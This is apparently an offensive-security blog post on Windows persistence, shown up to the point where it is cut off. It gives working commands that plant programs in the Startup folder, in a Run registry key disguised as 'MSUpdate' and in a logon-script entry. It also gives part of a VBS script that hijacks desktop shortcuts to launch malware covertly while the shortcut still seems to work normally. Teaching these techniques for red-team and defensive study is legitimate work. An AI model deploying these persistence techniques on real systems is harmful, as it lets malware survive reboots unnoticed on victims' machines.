 ```yaml
---
title: "Windows Persistence"
classes: wide
header:
  teaser: /assets/images/persist.png
ribbon: DodgerBlue
description: "Windows Persistence vectors explanation"
categories:
  - Offensive
toc: true
---
```


# Non Privileged vector

## Startup Folder / Registry keys

This is a basic technique used a lot, it works by just adding your application in one of those places.

    copy "app path" "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup"
    reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v MSUpdate /t REG_SZ /d "app path" /f

## Logon Script

when the user logs in there is a process called "userinit.exe" which does many things one of them is launching Logon Scripts.
you can create logon scripts with the following command...

    reg add "HKEY_CURRENT_USER\Environment" /v UserInitMprLogonScript /d "script path" /t REG_SZ /f

## Shortcuts Modification

This is working by modifying the command launched by the shortcut."Don't forget to do that in a way that makes the shortcut behave as expected from the user"
here is a VBS script that does that. "don't forget to modify it based on your needs"

```java
' malware path
malware = ""
' the path of the actual script that will be launched "Created by the script"
executed_script = "exec.vbs"
' target shortcut name
lnkName = ""

' helper vars
set WshShell = WScript.CreateObject("WScript.Shell" )
' Chose the folder of the lnk file
strDesktop = WshShell.SpecialFolders("Desktop" )
set oShellLink = WshShell.CreateShortcut(strDesktop & "\" & lnkName )
origTarget = oShellLink.TargetPath
origArgs = oShellLink.Arguments
origIcon = oShellLink.IconLocation
origDir = oShellLink.WorkingDirectory

' persistence malwareation
Set FSO = CreateObject("Scripting.FileSystemObject")
Set File = FSO.CreateTextFile(executed_script,True)
File.Write "Set oShell = WScript.CreateObject(" & chr(34) & "WScript.Shell" & chr(34) & ")" & vbCrLf
File.Write "oShell.Run " & chr(34) & malware & chr(34) & vbCrLf
```